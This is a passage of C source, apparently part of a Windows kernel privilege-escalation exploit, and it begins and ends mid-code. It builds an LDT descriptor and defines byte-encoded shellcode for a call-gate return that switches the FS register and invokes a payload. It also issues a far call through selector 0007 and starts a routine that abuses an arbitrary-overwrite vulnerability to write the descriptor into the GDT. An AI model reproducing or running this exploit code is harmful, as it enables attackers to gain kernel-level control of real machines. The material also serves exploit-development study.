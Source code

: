 ```
 pGate->Fields.Dpl     = 3;
}

// Setup the LDT descriptor ------------------------------------------------------
VOID PrepareLDTDescriptor32(PLDT_ENTRY pLDTDesc, PVOID LDTBasePtr) {

 ULONG_PTR LDTBase = (ULONG_PTR)LDTBasePtr;

 RtlZeroMemory(pLDTDesc, sizeof(LDT_ENTRY));

 pLDTDesc->BaseLow     = LDTBase & 0x0000FFFF;
 pLDTDesc->LimitLow     = 0xFFFF;
 pLDTDesc->HighWord.Bits.BaseHi  = (LDTBase & 0xFF000000) >> 24;
 pLDTDesc->HighWord.Bits.BaseMid = (LDTBase & 0x00FF0000) >> 16;
 pLDTDesc->HighWord.Bits.Type = 2;
 pLDTDesc->HighWord.Bits.Pres  = 1;
}


// Assembly wrapper to the payload to be able to return from the Call-Gate ------
// (using a FAR RET)
#define OFFSET_SHELLCODE 18
CHAR ReturnFromGate[]="\x90\x90\x90\x90\x90\x90\x90\x90"
       "\x60"                  // pushad       save general purpose registers
       "\x0F\xA0"              // push  fs     save FS segment register
       "\x66\xB8\x30\x00"      // mov  ax, 30h   
       // FS value is different between userland (0x3B) and kernelland (0x30)
       "\x8E\xE0"              // mov  fs, ax     
       "\xB8\x41\x41\x41\x41"  // mov  eax, @Shellcode  invoke the payload
       "\xFF\xD0"              // call  eax  
       "\x0F\xA1"              // pop   fs     restore general purpose registers
       "\x61"                  // popad        restore FS segment register
       "\xcb";                 // retf       far ret


// Assembly code that executes a CALL to 0007:00000000 ----------------------------
// (Segment selector: 0x0007, offset address: 0x00000000)
// 16-bit segment selector:
// [ 13-bit index into GDT/LDT ][0=descriptor in GDT/1=descriptor in LDT]
// [Requested Privilege Level: 00=ring0/11=ring3]
// => 0007 means: index 0 into GDT (first entry), descriptor in LDT, ring3
VOID FarCall() {
 __asm { 
   _emit 0x9A
   _emit 0x00
   _emit 0x00
   _emit 0x00
   _emit 0x00
   _emit 0x07
   _emit 0x00
 }
}

// Use the vulnerability to overwrite the LDT Descriptor into GDT ------------------
BOOL OverwriteGDTEntry(ULONG64 LDTDesc, PVOID *KGDTEntry) {

 HANDLE hFile;
 ARBITRARY_OVERWRITE_STRUCT overwrite;
 ULONG64 storage = LDTDesc;
 BOOL ret;
 DWORD dwReturn;

```
